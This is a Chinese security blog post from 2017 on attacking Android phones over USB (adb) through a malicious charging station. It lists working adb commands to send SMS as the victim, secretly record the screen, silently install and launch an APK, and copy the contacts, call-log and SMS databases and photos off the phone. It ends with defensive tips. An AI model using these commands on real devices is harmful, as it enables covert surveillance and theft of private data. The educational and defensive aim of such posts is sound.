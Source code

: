 ```yaml
---
layout: post
title: adb指令渗透手机获取隐私信息
date: 2017-03-17 11:00:20
comments: true
tags:
	- 安全攻防
	- 安卓
---
```


### 前言
><font color="#ff0000">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;**文中提及的部分技术，可能带有一定攻击性，仅供安全学习和教学用途，禁止非法使用！**</font>

### 正文
>前天的315晚会上，其中有部分为“手机充电桩窃取使用者信息”，其实攻击的原理并不高端，无非就是执行了adb恶意指令。<!--more-->
>前提就是必须开了usb调试模式，一旦开启并允许adb调试的话，就等同于让你的手机权限拱手让人了。

#### 发送短信
> 控制受害者手机发送短信，这个只需要三条命令就可以达到。<br/>
>  打开了短信应用程序，当前焦点在文本框
>  * adb shell am start -a android.intent.action.SENDTO -d sms:10086 --es sms_body "hello" --ez exit_on_sent true
>  焦点去到发送按键
>  * adb shell input keyevent 22  
>  回车，就是按下发送键
>  * adb shell input keyevent 66  

>![](/images/pasted-45.jpg)

#### 监视受害者手机
> 对受害者手机屏幕录屏，然后从手机传输到电脑。<br/>
> * adb shell screenrecord /sdcard/test.mp4
> 录制完毕后再从手机传输到电脑中
> * adb pull /sdcard/test.mp4 d:\test.mp4
> 其中如果全分辨率录制的会视频会比较大，如果受害者手机是2k的，那么就更大了，所以建议设置一下分辨率。
> * adb shell screenrecord --size 848x480 /sdcard/test.mp4

>![](/images/pasted-46.jpg)

#### 静默安装程序
> 将恶意程序静默安装在受害者手机内。
>  * adb install d:/test.apk
> 打开启动程序
>  * adb shell am start -n hk.myapplication/hk.myapplication.MainActivity
> hk.myapplication为包名，hk.myapplication.MainActivity为Activity的路径.

>![](/images/pasted-47.jpg)

#### 窃取通讯录短信等隐私。
> 作为安卓开发者我们都知道手机的短信通讯录等都存在手机的数据库中。
> 我们把数据库拷贝到电脑就相当于获取到了受害者的通讯录短信。
> 通讯录和通话记录的数据库存放在
> `/data/data/com.android.providers.contacts/databases/contacts2.db`
> 短信的数据库存放在
> `/data/data/com.android.providers.telephony/databases/mmssms.db`
> ps: 不知道是我手机原因还是什么原因，adb pull 不能直接拷贝到电脑，然后adb shell进入命令模式，先把数据库拷贝到sdcard中，然后再adb pull就成功拷贝了。
> 另外所有安卓手机中，我们手机拍摄的照片都会保存在`/sdcard/DCIM`这个文件夹中，我们adb pull这个文件夹，受害者在生活照所拍摄的照片和视频全部都可以获取到。

#### 末尾
> 这些危害都是在受害者连接usb后触发的，而且攻击过程受害者是完全感觉不到的。希望大家务必做好防范措施
> * 不要使用安全性未知的数据线连接自己的手机。
> * 在非需要调试的情况下，不要开启adb调试。
> * 安装可靠的手机杀毒软件。